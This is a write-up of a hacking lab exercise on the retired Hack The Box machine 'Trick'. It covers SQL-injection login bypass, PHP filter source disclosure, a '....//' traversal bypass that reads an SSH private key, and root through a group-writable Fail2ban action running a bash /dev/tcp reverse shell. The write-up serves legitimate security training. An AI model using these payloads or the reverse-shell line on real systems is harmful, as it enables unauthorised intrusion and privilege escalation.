






<p align="center">
  
</p>

# trick - hack the box

**platform:** Hack The Box · retired machine  
**os:** Linux · ~= Debian 10 · kernel `4.19.0-20-amd64` observed  
**outcome:** SSH foothold as `michael` through marketing-site LFI and disclosed private key; root shell through a writable Fail2ban action configuration and permitted service restart  
**focus:** TCP/UDP enumeration · DNS AXFR · virtual hosts · manual SQL injection · PHP stream wrappers · file inclusion · traversal sanitization · SSH keys · Linux permissions · sudo/Fail2ban

---

## `00 / prep & overview`

started with my usual fish environment and tmux logging setup:

```fish
mkdir -p loot logs notes scans
set -gx ENGAGEMENT_DIR (pwd -P)
set -gx ENGAGEMENT "trick"
set -gx IP "<TARGET_IP>"

if set -q TMUX
    set -l session (tmux display-message -p '#S')
    tmux set-environment -t "$session" ENGAGEMENT "$ENGAGEMENT"
    tmux set-environment -t "$session" IP "$IP"
    tmux set-environment -t "$session" ENGAGEMENT_DIR "$ENGAGEMENT_DIR"
end
```


---

## `01 / recon`

### TCP and UDP service discovery

started with a service/version scan and then covered the full TCP port range and the most common UDP ports:

```fish
nmap -sVC -oA scans/initial $IP
nmap -p- --min-rate 1000 -oA scans/allports $IP
nmap -sUV --top-ports 100 -oA scans/udp $IP
```

relevant results:

```text
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2
25/tcp  open  smtp?   Handshake/service identification unsuccessful
53/tcp  open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7
80/tcp  open  http    nginx 1.14.2 (Coming Soon page)

53/udp   open           domain   ISC BIND 9.11.5
68/udp   open|filtered dhcpc
631/udp  open|filtered ipp
5353/udp open|filtered zeroconf
```

full TCP scan confirmed just the four open TCP ports. I didn't treat `open|filtered` UDP results as proof that those services were accessible. SSH was worth keeping in mind for later, but DNS stood out because it was exposed over both TCP and UDP

### reverse DNS and zone transfer

checked the reverse record first:

```fish
dig @$IP -x $IP
```

returned a PTR for `trick.htb`

```fish
dig @$IP trick.htb AXFR
```

```text
trick.htb.                  IN SOA   trick.htb. root.trick.htb. ...
trick.htb.                  IN NS    trick.htb.
trick.htb.                  IN A     127.0.0.1
trick.htb.                  IN AAAA  ::1
preprod-payroll.trick.htb.  IN CNAME trick.htb.
```

new hostname to investigate

```fish
curl -vI -H 'Host: preprod-payroll.trick.htb' http://$IP
```

returned `302 Found` with `Location: login.php` and a PHP session cookie

the attack surface wasn't just the four ports. DNS pointed to an application I would have missed by browsing the IP alone.

---

## `02 / preprod-payroll: authentication and SQL injection`

### application discovery

hostname served an Employee Payroll / Recruitment Management application. `whatweb` identified nginx, PHP, Bootstrap, jQuery, and a login form


```sh
whatweb http://preprod-payroll.trick.htb

http://preprod-payroll.trick.htb/ [302 Found] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.14.2], IP[<TARGET_IP>], JQuery, RedirectLocation[login.php], Script[text/javascript], Title[Admin | Employee\'s Payroll Management System], nginx[1.14.2]
http://preprod-payroll.trick.htb/login.php [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.14.2], IP[<TARGET_IP>], JQuery, PHP, PasswordField[password], Script[text/javascript], Title[Admin | Employee\'s Payroll Management System], nginx[1.14.2]
```

login form sent credentials to an AJAX endpoint:

```http
POST /ajax.php?action=login HTTP/1.1
Host: preprod-payroll.trick.htb
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

ordinary credentials returned `3`, which the frontend treated as a failed login. I moved the request into repeater and started testing how the username was handled.

### error-based evidence and authentication bypass

submitting an unmatched single quote in the username caused a PHP notice:

```text
Trying to get property 'num_rows' of non-object
in /var/www/payroll/admin_class.php on line 21
```



application had leaked both its backend source filename and the line at which the SQL query failed

working username input was:

```text
admin' OR 1=1#
```

URL-encoded POST body was:

```text
username=admin%27%20OR%201%3D1%23&password=admin
```

with the body encoded correctly, the endpoint returned `1`, and the browser showed the Administrator dashboard. I also saw an account named `Enemigosss` in the Users page







recovered `admin_class.php` and confirmed the root cause:

```php
function login() {
    extract($_POST);
    $qry = $this->db->query(
        "SELECT * FROM users where username = '".$username.
        "' and password = '".$password."' "
    );
    if ($qry->num_rows > 0) {
        foreach ($qry->fetch_array() as $key => $value) {
            if ($key != 'passwors' && !is_numeric($key))
                $_SESSION['login_'.$key] = $value;
        }
        return 1;
    }
    return 3;
}
```

substituting the payload gives the conceptual SQL statement:

```sql
SELECT * FROM users
WHERE username = 'admin' OR 1=1#' and password = 'admin'
```

`OR 1=1` makes the predicate true; `#` comments out the remaining password check in MySQL


---

## `03 / preprod-payroll: PHP source disclosure and a failed upload`

### page routing to source disclosure

dashboard links used `index.php?page=...` compared known and invalid values, then confirmed `./users` loaded the same view as `users`

switched to a PHP stream-wrapper test using a known source file:

```http
GET /index.php?page=php://filter/convert.base64-encode/resource=users HTTP/1.1
Host: preprod-payroll.trick.htb
Cookie: PHPSESSID=<SYNTHETIC_SESSION_VALUE>
```

returned a base64 string inside the page. source of `users.php`, including a reference to `db_connect.php`



followed with:

```text
?page=php://filter/convert.base64-encode/resource=db_connect
```

db_connect.php created a MySQL connection to `localhost` using the `remo` account and `payroll_db` database. The password in this excerpt is a synthetic replacement, not the recovered credential:

```php
$conn = new mysqli(
    'localhost', 'remo', 'ExamplePayrollDb!2026', 'payroll_db'
);
```

also recovered `ajax.php` and `admin_class.php`, which let me trace frontend actions to backend functions and verify the SQL injection from source.  I read `index.php` itself and found:

```php
$page = isset($_GET['page']) ? $_GET['page'] : 'home';
include $page . '.php';
```

explains both the successful PHP filter reads and why a direct attempt to include `/etc/passwd` would resolve to `/etc/passwd.php`: the application appends the extension.

### file-upload hypothesis

`admin_class.php`, `save_settings()` contained an upload operation:

```php
if ($_FILES['img']['tmp_name'] != '') {
    $fname = strtotime(date('y-m-d H:i')).'_' . $_FILES['img']['name'];
    $move = move_uploaded_file(
        $_FILES['img']['tmp_name'], 'assets/img/' . $fname
    );
}
```

`ajax.php` exposed it through `?action=save_settings`. constructed a multipart request with a harmless text file. PHP accepted the file part and attempted to save it with the timestamped name, but the destination write failed:

```text
Warning: move_uploaded_file(assets/img/1795066080_null.txt):
failed to open stream: Permission denied

Warning: move_uploaded_file(): Unable to move ...
```

handler then threw a separate database notice when it tried to access `num_rows` on a failed query. 

messed with it for a bit but had to move on. could read source and authenticate to the payroll app, but I did not have a useful OS foothold. Trying the recovered MySQL credentials against SSH did not authenticate

### targeted database check

confirmed injection with SQLMap to enumerate databases and the account table:

```fish
sqlmap -r req --dbms=mysql --tables --batch \
  --risk=1 --level=1 --threads=10

sqlmap -r req --dbms=mysql -D payroll_db -T users \
  --dump --batch
```

results showed `payroll_db` and a single application `users` record. In the notes the password was stored in cleartext. The value in the table below is synthetic

```text
+----+---------------+------------+-----------------------+
| id | name          | username   | password              |
+----+---------------+------------+-----------------------+
| 1  | Administrator | Enemigosss | RedactedPass!2026     |
+----+---------------+------------+-----------------------+
```

useful evidence of weak credential storage, but it didn't provide the OS login I needed

---

## `04 / back to enumeration: a second virtual host`

returned to the original service surface. Finding one vhost through DNS didn't mean I had found all vhosts. The name `preprod-payroll` also suggested a useful naming convention.

compared an existing and an invented Host header:

```fish
curl -s -o /dev/null -w '%{http_code} %{size_download}\n' \
  -H 'Host: preprod-payroll.trick.htb' http://$IP/
# 302 9546

curl -s -o /dev/null -w '%{http_code} %{size_download}\n' \
  -H 'Host: nevergonnagiveyouup.trick.htb' http://$IP/
# 200 5480
```

a known-good host and a measurable default response. I preferred `ffuf`, using the `preprod-` pattern and filtering the default 5,480-byte body:

```fish
ffuf -u "http://$IP/" \
  -H 'Host: preprod-FUZZ.trick.htb' \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -mc all -fs 5480 -t 10
```

led to `preprod-marketing.trick.htb`, a separate business-oriented website. It looked like a generic HTML template, but the page navigation exposed another route worth testing


---

## `05 / preprod-marketing: traversal-filter bypass and SSH foothold`

### finding the page parameter

```text
http://preprod-marketing.trick.htb/index.php?page=about.html
```


unlike payroll, the filename in the URL already included its extension. I tested a nonexistent filename, a direct absolute `/etc/passwd`, and normal `../` traversal. attempts returned empty responses. rather than assume the parameter was safe, I compared different ways of requesting a file I knew existed

```text
about.html
./about.html
../about.html
```

responses returned the same 13,272-byte content and the exact same SHA-256 hash:

```text
7c98b544b3483978b5d89c9ee27f1fbbe99d20c50b171ec4be626fac13b064d4
```

consistent with the application stripping `../` rather than resolving the traversal normally.  tested `css/../about.html`; it returned an empty response

**nonrecursive sanitization**. If code removes `../` with a single `str_replace('../', '', ...)`, then the resulting sequence can leave a new `../` after the first removal:

```text
Input:  ....//
After a one-pass removal of ../:  ../
```

 bypass returned `/etc/passwd`

### enumerating local users

disclosed file included the following relevant entries:

```text
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```



`michael` was the obvious human user: UID 1001, home directory `/home/michael`, and `/bin/bash` login shell. This made the home directory a prime target for further file reading, instead of guessing SSH usernames

### SSH private-key disclosure

used the working LFI to investigate `/home/michael/.ssh/id_rsa`. The resulting OpenSSH private key was readable. I saved it locally and restricted the file's permissions before attempting authentication:

```fish
chmod 600 id_rsa
ssh -i id_rsa michael@$IP
```

The connection succeeded:

```text
Linux trick 4.19.0-20-amd64 ... x86_64
michael@trick:~$
```

confirmed operating-system foothold. MySql/web-app credentials were no longer the main path; a local account discovered through LFI and its SSH private key gave me direct access as `michael`

---

## `06 / privilege escalation: fail2ban and a writable action directory`

### local enumeration

began by identifying the account, its groups, and permitted sudo commands:

```bash
michael@trick:~$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)

michael@trick:~$ sudo -l
(root) NOPASSWD: /etc/init.d/fail2ban restart
```

passwordless sudo entry was narrow: Michael could restart Fail2ban as root. The `security` group membership suggested looking for resources that group could modify

```bash
ls -ld /etc/fail2ban /etc/fail2ban/action.d /etc/fail2ban/jail.d
```

```text
drwxr-xr-x root root     /etc/fail2ban/
drwxrwx--- root security /etc/fail2ban/action.d/
drwxr-xr-x root root     /etc/fail2ban/jail.d/
```

directory permissions were the key observation. Even if the existing action files were owned by root and had `0644`, a member of `security` could create and replace **directory entries** inside `action.d/`

### identifying the active action

debian SSH jail was enabled:

```ini
[sshd]
enabled = true
```

traced the default action using the jail configuration and fail2ban's resolved configuration dump:

```bash
grep -nE '^[[:space:]]*(action|banaction|enabled)[[:space:]]*=' \
  /etc/fail2ban/jail.conf /etc/fail2ban/jail.d/*

fail2ban-client -d | grep -E 'addaction|actionstart|iptables'
```

```text
['set', 'sshd', 'addaction', 'iptables-multiport']
```

tied the enabled `sshd` jail to `/etc/fail2ban/action.d/iptables-multiport.conf`. The action definition included hooks such as `actionstart`, `actionstop`, `actioncheck`, `actionban`, and `actionunban`, each used at a different point in the ban lifecycle

### replacing the action configuration

backed up the original file before modifying a working copy:

```bash
cp -P /etc/fail2ban/action.d/iptables-multiport.conf \
  /tmp/iptables-multiport.conf.bak
```

first controlled proof added an identity marker to `actionstart`:

```ini
actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
              /usr/bin/id > /tmp/id
```

initial restarts reported success, but `/tmp/id` never appeared. At first this looked like a payload or syntax failure. noticed something else: the action directory was being restored periodically, and my modified file kept disappearing

```bash
cp /tmp/iptables-multiport.conf \
  /etc/fail2ban/action.d/.iptables-multiport.test && \
  mv -f /etc/fail2ban/action.d/.iptables-multiport.test \
  /etc/fail2ban/action.d/iptables-multiport.conf && \
  fail2ban-client -d | grep -F '/usr/bin/id'
```

### action configuration to root

couldn't get code execution. frustrated, I looked up the writeup. ippsec used a bash script that he then used as the command. He also chose the `actionban`. I copied and still had issues

```bash
# /tmp/pwn.sh (callback destination generalized)
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER_VPN_IP>/1337 0>&1
```

```ini
# Extract from the tested Fail2ban action
[Definition]
actionban = /tmp/pwn.sh &
```

action file was copied/replaced under the group-writable directory and the allowed sudo restart was used. After further testing, I obtained a root shell. The exact ban-triggering request is not captured in the retained terminal transcript, so I can't reproduce that final trigger step from my notes

```bash
root@trick:/# whoami
root

root@trick:/# cat /root/root.txt
<ROOT_FLAG_OMITTED>
```


---

## `07 / findings and lessons`

| Observation                                                                          | Why I changed direction                                          | Result                                                 |
| ------------------------------------------------------------------------------------ | ---------------------------------------------------------------- | ------------------------------------------------------ |
| DNS ran over TCP and UDP                                                             | zone transfer might reveal internal names                        | found `preprod-payroll`                                |
| Login errors leaked a PHP source path                                                | malformed quote was reaching the SQL layer                       | confirmed manual SQL injection and admin session       |
| `page=./users` behaved like `users`                                                  | page routing might be filesystem-backed                          | PHP filter disclosed source code                       |
| PHP source referenced database configuration                                         | follow known dependencies rather than guessing files             | recovered DB settings and learned the login root cause |
| upload handler was reachable but could not write                                     | A `200` response was not enough to prove file write              | parked the upload path                                 |
| one vhost had been found, but the naming pattern remained                            | `preprod-` might be reused elsewhere                             | `ffuf` uncovered the marketing vhost                   |
| marketing returned identical hashes for `about.html` and `../about.html`             | suspected nonrecursive traversal filtering                       | bypass ultimately exposed `/etc/passwd`                |
| `/etc/passwd` identified `michael`                                                   | real Linux account was a better target than a web account        | private key disclosure and SSH foothold                |
| `sudo -l` exposed a Fail2ban restart and the `security` group could write `action.d` | look for a privileged service consuming controlled configuration | escalated to root                                      |
| restarts succeeded but payload effects were missing                                  | parse/load/trigger are separate stages; timing matters           | periodic configuration restoration                     |

**stop treating a plausible vulnerability as a finished exploit**.  payroll SQL injection and PHP source disclosure were real, but neither gave an OS shell. upload path was reachable but blocked. virtual-host enumeration produced the foothold

---

---

<sub>nu11s3c </sub>
